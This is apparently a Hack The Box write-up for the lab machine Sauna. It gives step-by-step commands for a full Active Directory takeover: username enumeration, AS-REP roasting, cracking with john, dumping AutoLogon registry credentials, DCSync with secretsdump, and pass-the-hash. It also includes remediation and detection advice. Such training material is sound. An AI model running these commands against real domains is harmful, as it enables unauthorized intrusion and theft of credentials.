# How I Rooted HTB Sauna: OSINT Username Enumeration, AS-REP Roasting, and DCSync

> A full Active Directory compromise through employee names scraped from a public website, an account missing Kerberos preauthentication, cached AutoLogon credentials in the registry, and a service account with DCSync rights.

---

## Machine Overview



Sauna is an Easy-rated Windows Active Directory machine on Hack The Box that covers a realistic attack chain you will encounter on OSCP and in real engagements.

The machine exposes a standard AD port profile with no direct anonymous footholds. The attack surface is a company website with an About page listing employee names. Those names feed into a username generation tool to produce a wordlist, which kerbrute validates against the domain - discovering one valid account that happens to have Kerberos preauthentication disabled. That account's AS-REP hash cracks from rockyou. From there winPEAS finds AutoLogon credentials for a service account stored in the registry, and BloodHound reveals that service account has GetChangesAll on the domain - meaning DCSync and a full credential dump are one command away.

The key lesson here is that a corporate website's About page is not just marketing material - to an attacker it is a starting point for account enumeration against services that should never be reachable from the internet.

---

## Summary of Findings

| # | Vulnerability | Severity | CVSS Score |
|---|---------------|----------|------------|
| 1 | AS-REP Roasting - account without Kerberos preauthentication requirement | High | 8.1 |
| 2 | Plaintext AutoLogon credentials stored in registry | High | 7.8 |
| 3 | Service account with DCSync rights (GetChangesAll) on domain | Critical | 9.0 |

**Rationale for scores:**

- **8.1 High** - `fsmith` was configured without `DONT_REQ_PREAUTH`, allowing any unauthenticated attacker to request an AS-REP ticket and receive an offline-crackable hash. Combined with employee names publicly listed on the company website and a weak password in rockyou, this becomes a network-accessible unauthenticated initial access path. AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H.
- **7.8 High** - `svc_loanmgr` credentials were stored in plaintext in the Windows AutoLogon registry key (`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`). Any local user or process with registry read access retrieves the password immediately. AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H.
- **9.0 Critical** - `svc_loanmgr` was granted the `GetChangesAll` extended right on the domain object, giving it DCSync capability. Any account with this right can replicate all domain credentials including the Administrator NTLM hash without touching a domain controller interactively. AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:N.

**Techniques covered:**
- Full port scan with `--min-rate` for OSCP time efficiency
- NXC anonymous access validation for SMB and LDAP
- OSINT employee enumeration from a corporate About page
- Username wordlist generation with username-anarchy
- Domain account validation with kerbrute
- AS-REP hash capture via kerbrute userenum
- Offline hash cracking with john and rockyou
- Multi-service credential validation with nxcprobe
- Evil-WinRM lateral movement
- Privilege escalation enumeration with winPEAS
- AutoLogon credential recovery from registry
- BloodHound collection with bloodhound-python
- DCSync with impacket-secretsdump
- Pass-the-hash with impacket-wmiexec

---

## Reconnaissance

### Port Scan

```bash
nmap -p- --min-rate 5000 10.129.95.180
```



| Port | Service | Notes |
|------|---------|-------|
| 53 | DNS | Domain DNS |
| 80 | HTTP | Web server |
| 88 | Kerberos | Domain controller confirmed |
| 135 | MSRPC | RPC |
| 139 | NetBIOS | SMB |
| 389 | LDAP | Directory |
| 445 | SMB | File sharing |
| 464 | kpasswd5 | Kerberos password change |
| 593 | HTTP-RPC | RPC over HTTP |
| 636 | LDAPS | LDAP over SSL |
| 3268 | Global Catalog LDAP | Forest-wide directory |
| 3269 | Global Catalog LDAPS | Forest-wide directory SSL |
| 5985 | WinRM | Remote management - key target |

The port profile confirms a domain controller. WinRM on 5985 is notable immediately - if credentials are recovered, Evil-WinRM gives an interactive shell without needing RDP.

---

## Enumeration

### SMB - Anonymous Access

```bash
nxc smb 10.129.95.180 -u '' -p ''
```



NXC returns `[+]` but no shares are accessible. The domain name leaks from the SMB banner: `EGOTISTICAL-BANK.LOCAL`. No enumeration vector here.

### LDAP - Anonymous Bind

```bash
nxc ldap 10.129.95.180 -u '' -p ''
```

Same result - anonymous bind succeeds at the protocol level but returns nothing useful. No users, no groups, no password policy without credentials.

### Web - Port 80

The web server hosts a corporate site for Egotistical Bank. Standard gobuster runs return no hidden content worth pursuing. The critical finding is the About page, which lists six employees by full name:



```
Fergus Smith
Hugo Bear
Steven Kerb
Shaun Coins
Bowie Taylor
Sophie Driver
```

In most assessments this is irrelevant. On a domain with no other enumeration vector, it is the only lead.

---

## Initial Access - AS-REP Roasting via OSINT Username Enumeration

### Generating Usernames with username-anarchy

Employee names alone are not domain usernames. Corporations use consistent formats - `f.smith`, `fsmith`, `fergus.smith` - but you rarely know which until you validate against the domain. Rather than guessing manually, username-anarchy generates every common variation automatically:

```bash
username-anarchy -i namesSurnames > anarchyUsers.txt
```



This produces 88 candidates covering every standard username format for all six employees.

### Validating with Kerbrute

Kerbrute tests each candidate against the Kerberos service on port 88. Invalid usernames return `KDC_ERR_C_PRINCIPAL_UNKNOWN` - valid ones get a different response. Critically, if a valid account has Kerberos preauthentication disabled, kerbrute captures the AS-REP hash in the same request:

```bash
~/tools/windowsPrivesc/ad/kerbrute_linux_amd64 userenum --dc 10.129.95.180 -d EGOTISTICAL-BANK.LOCAL anarchyUsers.txt
```



```
[+] VALID USERNAME: fsmith@EGOTISTICAL-BANK.LOCAL
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:c6a54dbd8bf49cc4ae7888332c19cfe8$...
```

One valid account: `fsmith`. And the hash is already in the output - `fsmith` does not require Kerberos preauthentication, so the KDC responded with an encrypted AS-REP without verifying identity first.

### Cracking the Hash with John

```bash
john fsmith.hash --wordlist=/usr/share/wordlists/rockyou.txt
```



```
Thestrokes23     ($krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL)
```

Cracked in 30 seconds. Credentials: `fsmith:Thestrokes23`.

### Validating Access with nxcprobe

```bash
./nxcprobe 10.129.95.180 fsmith Thestrokes23
```



WinRM returns `(Pwn3d!)` - fsmith can authenticate to WinRM and execute commands remotely.

### Shell via Evil-WinRM

```bash
evil-winrm -i 10.129.95.180 -u fsmith -p Thestrokes23
```



Shell as `fsmith`.

---

## Privilege Escalation - AutoLogon Credentials to DCSync

### Enumerating with winPEAS

Upload and run winPEAS to enumerate privilege escalation vectors:

```bash
upload /home/kaliman/tools/windowsPrivesc/winPEASx64.exe
.\winPEASx64.exe
```



winPEAS flags AutoLogon credentials stored in the registry:

```
Some AutoLogon credentials were found
DefaultDomainName  :  EGOTISTICALBANK
DefaultUserName    :  EGOTISTICALBANK\svc_loanmanager
DefaultPassword    :  Moneymakestheworldgoround!
```

AutoLogon credentials are stored in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` in plaintext. Any local process or user with registry read access retrieves them.

### Testing the Credentials

The username winPEAS reported is `svc_loanmanager`. Testing it across services:

```bash
./nxcprobe 10.129.95.180 svc_loanmanager 'Moneymakestheworldgoround!'
```



All services return auth failure. The credentials look valid but the username is wrong - winPEAS displayed the display name stored in the registry, not the actual samAccountName. This is easy to miss under time pressure.

### BloodHound - Finding the Real Account and DCSync Rights

Collect BloodHound data with fsmith's credentials to map the domain:

```bash
bloodhound-python -u 'fsmith' -p 'Thestrokes23' -d 'EGOTISTICAL-BANK.LOCAL' -ns 10.129.95.180 -c All
```



Load the JSON files into BloodHound and check outbound object control for the service accounts. `svc_loanmgr` - the abbreviated form - has `GetChangesAll` on the domain object:


`GetChangesAll` is one of the two extended rights required for DCSync. With it, `svc_loanmgr` can replicate all domain credentials from the DC as if it were another domain controller.

The correct samAccountName is `svc_loanmgr`, not `svc_loanmanager` as winPEAS reported.

### DCSync with impacket-secretsdump

```bash
impacket-secretsdump EGOTISTICAL-BANK.LOCAL/svc_loanmgr:'Moneymakestheworldgoround!'@10.129.95.180
```



```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
```

Full domain credential dump including the Administrator NTLM hash.

### Pass-the-Hash as Administrator

```bash
impacket-wmiexec -hashes :823452073d75b9d1cf70ebdf86c7f98e Administrator@10.129.95.180
```



```
C:\>whoami
egotisticalbank\administrator
```

Domain compromised.

---

## Vulnerability Analysis

---

### AS-REP Roasting - Kerberos Preauthentication Disabled on fsmith

**Severity:** High
**CVSS Score:** 8.1

**Description:** The `fsmith` account was configured with `DONT_REQ_PREAUTH` set, disabling the Kerberos preauthentication requirement. Any unauthenticated network attacker can send an AS-REQ for this account and receive an AS-REP containing a ticket encrypted with the account's password hash, which can be cracked offline. The account was discovered by combining publicly listed employee names from the company website with automated username generation.

**Root Cause:** Two misconfigurations compound each other. First, `DONT_REQ_PREAUTH` was enabled on a user account - this flag exists for legacy application compatibility and should almost never be set. Second, the account's password was present in the rockyou wordlist, meaning the offline crack required no specialised resources.

**Impact:** Any attacker who can reach port 88 over the network and knows or can guess a valid username can retrieve an offline-crackable hash with no credentials required. The company website provided the starting point for username generation. Initial foothold achieved as `fsmith` with WinRM access.

**Remediation:**
- Audit all accounts with `DONT_REQ_PREAUTH` set: `Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true}`
- Remove the flag on all accounts that do not have a documented legacy requirement
- Enforce a minimum password length and complexity policy that prevents dictionary-crackable passwords
- Remove employee full names and titles from public-facing websites, or at minimum do not match internal naming conventions

---

### Plaintext AutoLogon Credentials in Registry

**Severity:** High
**CVSS Score:** 7.8

**Description:** The Windows AutoLogon feature was configured with `svc_loanmgr` credentials stored in plaintext under `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`. Any local user or process running on the machine can read these values. WinPEAS retrieves them automatically during standard privilege escalation enumeration.

**Root Cause:** AutoLogon was configured for operational convenience - likely to allow the machine to restart and log in automatically. The `DefaultPassword` value is stored in plaintext with no encryption. This is a known Windows design limitation: AutoLogon credentials cannot be protected in the registry.

**Impact:** Any local code execution - including the initial WinRM foothold as `fsmith` - is sufficient to retrieve a second set of domain credentials, in this case belonging to a service account with DCSync rights.

**Remediation:**
- Disable AutoLogon on all domain-joined machines
- If AutoLogon is operationally required, use a dedicated low-privilege local account rather than a domain service account
- Audit the registry key across the environment: `Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" | Select DefaultUserName, DefaultPassword`

---

### Service Account with DCSync Rights (GetChangesAll)

**Severity:** Critical
**CVSS Score:** 9.0

**Description:** `svc_loanmgr` was granted the `GetChangesAll` extended right on the domain object. This right, when combined with `GetChanges`, enables DCSync - the ability to replicate all domain credentials from a domain controller using the DRSUAPI protocol. `impacket-secretsdump` used this right to dump every account's NTLM hash and Kerberos keys including the Administrator account and krbtgt.

**Root Cause:** The `GetChangesAll` right was explicitly delegated to `svc_loanmgr` on the domain object. This level of permission has no legitimate use case for a service account. Only domain controllers and explicitly privileged accounts used for legitimate synchronization should hold these rights.

**Impact:** Any attacker who obtains `svc_loanmgr` credentials - in this case retrieved from AutoLogon registry keys - achieves full domain compromise. DCSync requires no interactive logon to a domain controller and generates less forensic noise than NTDS.dit extraction. All domain account hashes were dumped, including Administrator and krbtgt.

**Remediation:**
- Immediately revoke `GetChangesAll` from `svc_loanmgr` and audit all accounts holding this right
- The only accounts that should hold DCSync rights are domain controllers and explicitly managed Tier 0 accounts
- Monitor for DCSync activity: Event ID 4662 with GUID `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` (GetChanges) and `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2` (GetChangesAll)
- Rotate the krbtgt password twice immediately following this finding to invalidate any forged Kerberos tickets

---

## What I Learned

**A corporate About page is an enumeration surface.** Employee full names map directly to domain usernames through standard corporate naming conventions. username-anarchy automates the generation of every variation - you do not need to guess the format manually. Kerbrute validates the list against port 88 without triggering account lockout. The entire chain from six names to a valid username and a crackable hash took minutes.

**Kerbrute captures AS-REP hashes during enumeration.** If a valid account lacks preauthentication, kerbrute returns the hash in the same sweep that discovers the username. No separate GetNPUsers run is needed. The hash was already in the output before I finished reading it.

**AutoLogon credentials and samAccountName discrepancies.** winPEAS reported `svc_loanmanager` but the actual AD account is `svc_loanmgr`. Testing the winPEAS-reported name against services failed silently. The lesson: always verify the exact samAccountName in BloodHound or with `--users` before concluding credentials do not work. The password was correct - only the username format was wrong.

**BloodHound first, spray last.** Once you have any valid credentials, collect BloodHound data immediately. In this machine the entire privilege escalation path - AutoLogon credentials leading to DCSync - is visible in the graph in under a minute. Without BloodHound, the svc_loanmgr account looks like a dead end because it has no WinRM or SMB access. BloodHound shows it owns the entire domain through a single extended right.

**DCSync is quieter than you think.** No interactive logon to the DC, no file transfer, no suspicious process on the target. A single impacket command over the network dumps every credential in the domain. Defenders must be monitoring Event ID 4662 specifically for the GetChangesAll GUID - generic logon alerting will not catch this.
